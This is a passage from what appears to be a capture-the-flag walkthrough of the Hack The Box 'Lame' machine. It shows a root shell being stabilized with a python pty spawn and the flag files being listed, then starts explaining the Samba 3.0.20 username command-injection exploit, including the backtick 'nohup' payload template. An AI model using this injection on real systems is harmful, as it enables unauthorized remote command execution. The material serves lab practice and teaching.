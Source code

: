 * We got a shell and we are root. Lets stabilize the shell with python pty.

```sql
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
```

* Lets get the user and root flags.

```sql
root@lame:/# cd /root
cd /root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# wc -c root.txt
wc -c root.txt
33 root.txt
root@lame:/root# cd /home
cd /home
root@lame:/home# ls
ls
ftp  makis  service  user
root@lame:/home# cd makis
cd makis
root@lame:/home/makis# ls
ls
user.txt
root@lame:/home/makis# wc -c user.txt
wc -c user.txt
33 user.txt
root@lame:/home/makis# 

```

* Now let us try to exploit the machine manually.
* You may refer to the article below if you want to know more about this exploit.
		
		https://blog.alien0ne.me/cve-2007-2447/
		<br>
	
* Searching for `samba 3.0.20 exploits` on google reveals it has quite some vulnerabilities:
* I found this [EXPLOIT](https://www.exploit-db.com/exploits/16320) on exploit-db. Let us go through the script and start exploiting the machine manually.
* Looking through the script, we can understand that there is a vulnerability in the `username` a field that takes the below parameter along with the payload.

```bash
"/=`nohup " + payload.encoded + "`"
```

* In POSIX or POSIX-like shells (ksh, bash, bash, zsh, yash), The command in the braces of $() or between the backticks (``) is executed in a  sub-shell, and the output is then placed in the original command.
* [`nohup`](https://en.wikipedia.org/wiki/Nohup)  Is a command which means "no hang up", In Linux systems, this command keeps the processes running even after exiting the shell or terminal.
* Now let's send our payload in the username field and the password via smbclient.
